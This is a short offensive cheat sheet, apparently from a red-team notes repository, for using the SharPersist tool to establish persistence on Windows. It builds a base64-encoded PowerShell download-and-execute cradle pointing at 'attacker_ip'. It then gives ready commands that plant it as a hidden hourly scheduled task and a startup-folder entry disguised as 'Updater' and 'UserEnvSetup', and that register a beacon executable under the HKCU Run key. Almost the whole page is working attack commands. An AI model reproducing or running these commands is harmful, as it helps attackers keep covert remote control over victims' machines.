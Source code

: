 # SharPersist

https://github.com/mandiant/SharPersist/releases/tag/v1.0.1

Common userland persistences:
 
1) HKCU / HKLM Registry Autoruns

2) Scheduled Tasks

3) Startup Folder

##### Convert command to execute to base64

    $str = 'IEX ((new-object net.webclient).downloadstring("http://attacker_ip/a"))'
    [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

##### Via scheduled task

    .\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64>" -n "Updater" -m add -o hourly

##### Via startup folder

    .\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64>" -f "UserEnvSetup" -m add

##### Via registry key, first create a .exe beacon named updater.exe, then

    .\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
